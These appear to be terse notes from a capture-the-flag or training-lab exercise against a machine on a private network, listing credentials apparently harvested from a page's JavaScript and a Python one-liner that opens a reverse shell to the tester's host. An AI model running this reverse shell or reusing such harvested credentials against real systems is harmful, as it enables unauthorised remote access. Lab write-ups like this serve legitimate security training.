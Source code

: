 view-source:http://10.10.113.5//terminal.js

got username and password 

boris : InvincibleHack3r

username: xenia
password: RCP90rulez!

username: dr_doak
password: 4England!

admin : xWinter1995x!

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.57.82",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

